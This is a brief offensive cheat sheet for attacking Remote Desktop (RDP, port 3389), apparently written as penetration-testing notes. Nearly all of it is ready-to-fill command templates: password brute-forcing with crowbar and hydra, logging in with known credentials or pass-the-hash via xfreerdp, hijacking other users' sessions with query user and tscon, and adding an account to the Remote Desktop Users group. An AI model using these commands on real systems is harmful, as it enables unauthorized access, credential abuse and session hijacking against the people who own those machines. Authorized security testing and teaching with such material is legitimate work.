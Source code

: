 # RDP - 3389

#### Brute force <a href="#brute-force-7" id="brute-force-7"></a>

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

#### Connect with known credentials / hash <a href="#connect-with-known-credentials--hash" id="connect-with-known-credentials--hash"></a>

```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

#### Session stealing <a href="#session-stealing" id="session-stealing"></a>

**Get openned sessions**

```
query user
```

**Access to the selected**

```
tscon <ID> /dest:<SESSIONNAME>
```

#### Adding user to RDP group (Windows) <a href="#adding-user-to-rdp-group-windows" id="adding-user-to-rdp-group-windows"></a>

```
net localgroup "Remote Desktop Users" <USER> /add
```
